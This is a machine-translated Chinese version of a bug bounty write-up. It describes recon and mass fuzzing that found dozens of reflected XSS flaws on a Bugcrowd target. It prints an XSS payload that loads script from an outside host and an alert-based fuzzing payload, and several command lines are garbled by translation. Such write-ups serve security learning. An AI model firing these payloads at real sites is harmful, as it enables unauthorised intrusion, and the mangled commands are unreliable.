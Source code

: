 # 我是如何在 Bugcrowd 公共程序上发现 50 多个跨站点脚本(XSS)安全漏洞的？

> 原文：<https://infosecwriteups.com/how-i-was-able-to-find-50-cross-site-scripting-xss-security-vulnerabilities-on-bugcrowd-public-ba33db2b0ab1?source=collection_archive---------0----------------------->

大家好，承蒙上帝的恩典，我希望看到这篇博客的每个人和他们的家人在疫情过得好。让我向这里的每个人介绍一下我自己。我是 Takshal，也叫做 **tojojo** ，来自印度的网络安全研究员和开发人员。我在信息安全行业有 3 年以上的经验，我也有我的 YouTube 频道，名字是 Tojojo。频道的链接将在这篇博文的末尾。这是我的第一篇博文，所以我请求大家，如果我的语法或拼写有任何错误，请原谅我，所以让我开始讨论我是如何在一个公共程序中发现 50 多个安全漏洞(跨站点脚本)的话题。

![](img/b197b75c06166da55c2c3b5fe185af61.png)

所以我最近决定探索更多关于我们行业的事情，所以最好的开始方式是在注册过程后在一个著名的在线平台 BugCrowd 上进行 Bug 赏金狩猎，然后开始狩猎。在经历了多个程序后，我不得不选择一个公共程序。出于安全原因，我可以使用通配符域名找到目标。让我们将域名称为 abc.com。

选择目标领域后，我必须借助不同的工具和技术对领域进行侦察，因为我真的很喜欢做侦察部分。在此过程中使用的工具有:

1.  资产查找器
2.  子 Finder
3.  积累
4.  寻找领域
5.  谷歌多金

(注意:这些工具用于查找目标的子域)

运行工具后，我能够收集 576 个子域名列表的信息。下一个过程是找到活跃的子域的数量，对于这个过程，我们现在所有的猎人都使用 HTTPX，这对于结果来说有点快，但我更喜欢使用**http probe**一个由安全研究员 tomnom 制作的工具。因为我是 Tomnomnom 的超级粉丝，他总是让我和其他人有动力更多地了解我们的行业。

这两个工具都有自己的算法来识别子域中的任何开放端口。要在 httprobe 的帮助下识别目标中的开放端口，请使用以下命令:

**cat subdomains . txt | http probe | tee-a host . txt**

在探测过程后，我能够找到 260 个活跃的主机，并再次确认我必须手动检查所有运行的主机，在 TP 开发人员的帮助下打开多个 URL 扩展，检查主机中所有可用的不同功能，同时我开始执行 google-dorking 技术。在 Google-dorking 的帮助下，我能够找到目标子域的一些登录页面。因此，我决定检查那里的登录功能，我能够找到一个子域，让它命名为 xyz.abc.com。在完成注册过程后，我可以找到注册页面，我开始查看该子域中所有可用的功能。在检查了所有内容之后，我能够在 URL 中找到一个易受攻击的端点，在那里我能够执行 html 注入。但是我只能注入一个 20 个字符的 html 注入负载。我不得不花大约 2 天时间将 html 注入有效负载转换为跨站点脚本有效负载，以利用高影响漏洞。用于利用该漏洞的有效负载是一个非常小的 xss 有效负载:

**<script/src=//ǌ.₨></剧本>**

在输入有效载荷后，我能够利用导致跨站点脚本(XSS)的脆弱端点。检查完所有内容后，我进行了 POC(概念验证),准备了一份报告并提交给 BugCrowd 平台。

后来，在提交了报告之后，就再也没有休息过，他们在没有通知我的情况下悄悄地修复了漏洞，并将我的报告标记为 NA(不适用)。

这件事之后，我非常沮丧和失望，开始产生负面情绪，我也开始怀疑我的技能，这影响了我的个人和职业生活。后来，我决定相信自己和我工作了 3 年的技能，所以我带着我自己开发的工具回到同一个平台和同一个目标程序，这次用我开发的工具向他们展示我的技能 自定义爬虫脚本，在 waybackurl 脚本的帮助下，我能够在目标 abc.com 的所有子域中提取超过 50，000，000/-(50 万)个端点信息。 使用的命令有:

**cat host . txt | crawler | tee-a endpoint . txt
cat host . txt | waybackurl | tee-a endpoint . txt**

在找到所有的 50 万个端点后，我开始模糊所有的参数，在工具 **qsreplace 的帮助下找到 xss 漏洞。**使用的命令是:

**cat endpoint . txt | QS replace ' "><img src = x on error = alert(1)>| tee-a XSS _ fuzz . txt**

现在执行完这个命令后，我必须检查参数的数量是否已经将我们的有效载荷反映到纯文本天气中，所以我创建了一个名为 **FREQ** 的工具，它也可以在我的 GitHub repo 中找到。因此，该工具发送多个请求来检查包含有效负载的响应是否返回受影响的 URL。用于执行此攻击的命令是:

**猫 XSS _ fuzz . txt | freq | tee-a possible _ XSS . txt**

在编译攻击之后，我能够找到一千个**端点，这些端点以明文的形式反映了有效载荷。因此，我不得不再次手动检查所有受影响的端点，我发现了一个独特的 80 XSS 漏洞，并报告了大约 56 个 XSS 漏洞，所有报告的漏洞都被平台接受。仍有许多其他 xss 报告未完成。**

![](img/f56e8eca7fd05c878470752c217ecc11.png)

感谢大家抽出时间阅读我的博客，如果博客中有任何语法错误，我很抱歉。

祝你快乐。